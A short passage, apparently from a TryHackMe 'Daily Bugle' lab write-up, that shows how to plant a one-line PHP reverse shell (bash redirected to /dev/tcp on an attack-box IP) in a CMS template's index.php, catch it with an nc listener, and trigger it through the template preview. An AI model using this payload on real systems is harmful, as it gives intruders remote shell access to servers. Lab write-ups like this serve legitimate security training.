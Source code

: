 Add the following line to the _index.php_ file, as shown in the image below.  
This is a one-line reverse php shell.

`exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_ATTACKBOX_IP>/1234 0>&1'");`

![](../assets/images/tryhackme/offensive_pentesting/dailybugle/shell.png)

Listen for incoming connection on your attack machine:

```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
```

Press the "Save" button and then press the "Template Preview" button to run the code.  
You should get an empty preview and a connection on your attack box.

![](../assets/images/tryhackme/offensive_pentesting/dailybugle/template_preview.png)
